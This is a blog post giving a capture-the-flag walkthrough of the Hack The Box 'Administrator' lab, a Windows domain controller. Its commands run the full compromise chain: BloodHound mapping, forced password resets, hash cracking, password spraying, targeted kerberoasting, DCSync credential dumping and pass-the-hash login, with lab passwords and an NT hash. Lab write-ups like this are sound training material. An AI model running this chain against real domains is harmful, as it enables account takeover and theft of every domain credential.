 ```yaml
---
layout: post
title: "Administrator"
date: 2025-04-25 
categories: ctf
---
```

# Administrator

First let’s enumerate the open ports:

```bash
sudo nmap -sC -sV 10.10.11.42

result:
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-24 17:28:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-24T17:28:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
```

From this, we know the domain name is administrator.htb. Let’s add that to our /etc/hosts file.

Let’s try to login to FTP with Olivia’s credentials and see what files are available to us:

```bash
ftp 10.10.11.42

result:
Access Denied.
```

Since we were given a credential, we can map out the AD structure with bloodhound:

```bash
mkdir bloodhound_output
bloodhound-python -u Olivia -p 'ichliebedich' -ns 10.10.11.42 -d administrator.htb -c all

sudo neo4j start

bloodhound   #neo4j:neo4j
```

Starting from our user Olivia, we navigate to Node Info, scroll to Outbound Object Control, We see that we have GenericAll over Michael.

![image.png]({{ site.baseurl }}/assets/administrator/image.png)

By right-clicking on GenericAll, and clicking help, we can see how we can leverage this privilege. GenericAll means we have full control over the user, therefore the ability to change its password and log on as Michael. 

```bash
net rpc password "michael" "P@ssword123" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "10.10.11.42"

#Now to see if the password change worked

nxc smb 10.10.11.42 -u michael -p 'P@ssword123'

results:
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\michael:P@ssword123
```

Let’s see what permission Michael has:

![image.png]({{ site.baseurl }}/assets/administrator/image%201.png)

Michael has ForceChangePassword, therefore, we also have control over the user Benjamin. Let’s change Benjamin’s password as well:

```bash
net rpc password "benjamin" "P@ssword123" -U "administrator.htb"/"michael"%"P@ssword123" -S "10.10.11.42"

#To check

nxc smb 10.10.11.42 -u benjamin -p 'P@ssword123'

result:
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\benjamin:P@ssword123
```

Marking Benjamin as owned, clicking on its First degree membership in node info, we see:

![image.png]({{ site.baseurl }}/assets/administrator/image%202.png)

A member of Share Moderators. Let’s see if Benjamin can access ftp:

```bash
ftp 10.10.11.42

dir

get Backup.psafe3

result:
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.

Let's try again in binary mode:

bin

get Backup.psafe3
```

Now let’s use hashcat to crack the password of the safe:

```bash
hashcat Backup.psafe3 rockyou.txt #tekieromucho
```

Let’s download the password safe app and see what passwords we find in the database:

```bash
sudo apt install passwordsafe

pwsafe
```

We see passwords for 3 users, let’s save each user in a users.txt file and each password in password.txt file, in the same order, then let’s see which passwords are valid:

```bash
nxc smb 10.10.11.42 -u users.txt -p passwords.txt --no-bruteforce --continue-on-success

result:
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [-] administrator.htb\alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
SMB         10.10.11.42     445    DC               [-] administrator.htb\emma:WwANQWnmJnGV07WQN8bMS7FMAbj
```

We now have access to user Emily. Let’s login to Emily and submit the flag:

```bash
evil-winrm -i 10.10.11.42 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

Now let’s see what permissions Emily has over other objects back on bloodhound.

![image.png]({{ site.baseurl }}/assets/administrator/image%203.png)

We can perform a kerberoast attack. Let’s download the suggested python script and carry out the attack

```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

result:
impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Looks like we have to sync our machine to the same time as the target and run the attack again:

```bash
sudo ntpdate 10.10.11.42
```

Now we have the hash for ethan, let’s attempt to crack it again with hashcat.

```bash
hashcat -m 13100 share/ethan.krb rockyou.txt #limpbizkit
```

```bash
nxc smb 10.10.11.42 -u ethan -p limpbizkit
```

We now have control of ethan. Let’s see what permissions he has.

![image.png]({{ site.baseurl }}/assets/administrator/image%204.png)

We have DCSync permission which means we can copy the NTDS.dit database, which contains all the user’s hash. Let’s DCSync the domain.

```bash
impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@10.10.11.42
```

Now we have the adminstrator’s NT hash, we can perform pass-the-hash attack and log in as Administrator via evil-winrm:

```bash
evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```